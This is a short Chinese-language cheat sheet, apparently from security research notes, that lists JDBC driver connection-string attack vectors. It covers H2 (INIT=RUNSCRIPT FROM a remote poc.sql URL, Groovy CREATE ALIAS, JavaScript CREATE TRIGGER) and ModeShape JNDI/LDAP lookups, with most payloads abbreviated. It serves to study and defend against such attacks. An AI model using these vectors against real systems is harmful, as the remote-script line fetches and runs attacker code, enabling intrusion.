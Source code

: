 

### h2

RUNSCRIPT FROM remote

| 参数     | 值                                                          |
| -------- | ----------------------------------------------------------- |
| 驱动名称 | `org.h2.Driver`                                             |
| 攻击向量 | `RUNSCRIPT FROM`                                            |
| 连接参数 | `INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql'`       |
| 备注     | 从远端获取 SQL，真正的执行 payload 是 `CREATE ALIAS`/`CALL` |

CREATE ALIAS Groovy

| 参数     | 值                                              |
| -------- | ----------------------------------------------- |
| 驱动名称 | `org.h2.Driver`                                 |
| 攻击向量 | `CREATE ALIAS AS`                               |
| 连接参数 | `@groovy.transform.ASTTest(value={ assert...})` |
| 备注     | 使 Driver 解析和执行 groovy 代码                |

CREATE TRIGGER JavaScript

| 参数     | 值                                   |
| -------- | ------------------------------------ |
| 驱动名称 | `org.h2.Driver`                      |
| 攻击向量 | `CREATE TRIGGER`                     |
| 连接参数 | `//javascript..`                     |
| 备注     | 使 Driver 解析和执行 javascript 代码 |



### modeshape

| 参数     | 值                                  |
| -------- | ----------------------------------- |
| 驱动名称 | `org.modeshape.jdbc.LocalJcrDriver` |
| 攻击向量 | `jcr:jndi:`                         |
| 连接参数 | `jdbc:jcr:jndi:ldap://...`          |
| 备注     | jcr 执行 jndi 查询                  |



### mysql
